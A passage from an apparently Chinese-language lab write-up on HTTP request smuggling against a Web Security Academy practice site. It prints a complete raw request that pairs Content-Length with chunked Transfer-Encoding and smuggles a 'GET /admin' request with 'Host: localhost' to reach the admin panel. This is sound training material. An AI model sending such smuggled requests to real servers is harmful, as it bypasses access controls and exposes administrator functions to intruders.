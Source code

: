 [![](assets/1698897445-913b303fc3a1629d3e8556035f41659e.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154609.png)

可以看到第二个请求我们得到了`/admin`的响应

```bash
<div class="container is-page">
  Admin interface only available if logged in as an administrator, or if requested as localhost
</div>
```

于是我们添加 HOST 头再次发送几次

```bash
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 45
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
```

我们可以看到成功访问到了`/admin`面板内容，如果不成功可以多发送几次试试看
